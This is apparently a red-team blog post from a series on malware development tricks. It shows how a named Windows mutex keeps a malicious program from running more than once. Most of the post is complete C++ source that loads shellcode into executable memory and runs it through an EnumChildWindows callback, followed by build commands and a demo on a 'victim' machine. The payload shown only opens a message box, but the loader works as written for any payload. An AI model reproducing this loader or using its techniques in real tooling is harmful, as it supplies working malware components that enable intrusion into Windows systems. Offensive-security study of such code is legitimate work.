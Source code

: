 ```yaml
---
title:  "Malware development tricks: part 26. Mutex. C++ example."
date:   2023-01-04 03:00:00 +0300
header:
  teaser: "/assets/images/84/2023-01-04_12-50.png"
categories:
  - malware
tags:
  - injection
  - windows
  - malware
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![injection](/assets/images/84/2023-01-04_12-50.png){:class="img-responsive"}    

This post is the result of my own research into the malware dev trick: prevent self-execution via mutexes.     

Sometimes, when developing malware, for maximum stealth, it is necessary that the program be launched only once. To do this, according to the [MSDN documentation](https://learn.microsoft.com/en-us/dotnet/standard/threading/mutexes), we can use mutexes.

### mutex

For simplicity, we can use `CreateMutexA` function from Windows API:    

```cpp
HANDLE CreateMutexA(
  LPSECURITY_ATTRIBUTES lpMutexAttributes,
  BOOL                  bInitialOwner,
  LPCSTR                lpName
);
```

### practical example

In the simplest implementation, you can use this function in this way:    

create mutex with specific name, so multiple instances can detect it:    

```cpp
hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
```

check if mutex already exists, exit from app:    

```cpp
if (GetLastError() == ERROR_ALREADY_EXISTS) {
  // if this process created the mutex, exit the application
  if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
    CloseHandle(hMutex);
    return 0;
  }
}
```

otherwise, run malicious logic and close the mutex when done:    

```cpp

//...
// malicious logic
LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
RtlMoveMemory(mem, my_payload, sizeof(my_payload));
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

//...

// cleanup
if (hMutex)
  CloseHandle(hMutex);
return 0;
```

So, full source code is looks like:    

```cpp
/*
 * hack.cpp - Create mutex, run shellcode. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/01/04/malware-tricks-26.html
*/
#include <windows.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE hMutex;
  // create mutex with a name so multiple instances can detect it
  hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
  // check if the mutex already exists
  if (GetLastError() == ERROR_ALREADY_EXISTS) {
    // if this process created the mutex, exit the application
    if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
      CloseHandle(hMutex);
      return 0;
    }
  }

  // shellcode running logic
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

  // cleanup
  if (hMutex)
    CloseHandle(hMutex);
  return 0;
}
```

As you can see, I use running shellcode [via EnumChildWindows](/malware/2022/07/13/malware-injection-21.html) logic. Also, as usually, use `meow-meow` messagebox payload.     

### demo

Let's go to see everything in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![injection](/assets/images/84/2023-01-04_12-39.png){:class="img-responsive"}    

Then, move to victim's machine (in my case `Windows 10 x64`) and run:    

```powershell
.\hack.exe
```

![injection](/assets/images/84/2023-01-04_12-38.png){:class="img-responsive"}    

Then, try to run this "malware" again from another Powershell terminal:    

![injection](/assets/images/84/2023-01-04_12-41.png){:class="img-responsive"}    

As you can see, nothing started, we only have one messagebox.    

For checking correctness, we can add some print to our code:    

```cpp
/*
 * hack.cpp - Create mutex, run shellcode. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/
*/
#include <windows.h>
#include <cstdio>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE hMutex;
  // create mutex with a name so multiple instances can detect it
  hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
  // check if the mutex already exists
  if (GetLastError() == ERROR_ALREADY_EXISTS) {
    // if this process created the mutex, exit the application
    if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
      printf("MeowMeowMutex already exists, app already running =^..^=\n");
      CloseHandle(hMutex);
      return 0;
    }
  }

  // shellcode running logic
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

  // cleanup
  if (hMutex)
    CloseHandle(hMutex);
  return 0;
}
```

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
